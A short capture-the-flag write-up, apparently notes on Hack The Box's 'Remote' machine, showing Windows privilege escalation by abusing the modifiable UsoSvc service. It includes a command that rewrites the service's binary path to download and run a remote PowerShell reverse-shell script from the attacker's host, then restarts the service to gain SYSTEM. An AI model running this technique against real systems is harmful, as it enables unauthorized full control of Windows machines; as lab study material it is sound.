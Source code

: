 # 25 - PrivEsc



# SeImpersonatePrivilege is enabled
```bash
PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Juicy potato doesn't work on this box. It's Windows Server 2019 Standard. Rogue potato came out after this box is released so it's not the intended way.




# WinPEAS.exe
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/www]
└──╼ $ cp /opt/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe .
```



# UsoSvc
![](vx_images/4679059092889.png)

It's a modifiable service, we can modify the path of this service to elevate privileges.




```bash
PS C:\> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

.exe extension is important because 

```bash
PS C:\> alias sc

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           sc -> Set-Content
```

sc is an alias in powershell.

# Modifying binpath of UsoSvc
```bash
PS C:\> sc.exe  config UsoSvc binpath= "cmd /c powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18/rev.ps1')"
[SC] ChangeServiceConfig SUCCESS
PS C:\> net.exe stop UsoSvc
The Update Orchestrator Service service is stopping.
The Update Orchestrator Service service was stopped successfully.
PS C:\> net.exe start UsoSvc
```



# System
![](vx_images/4640280917233.png)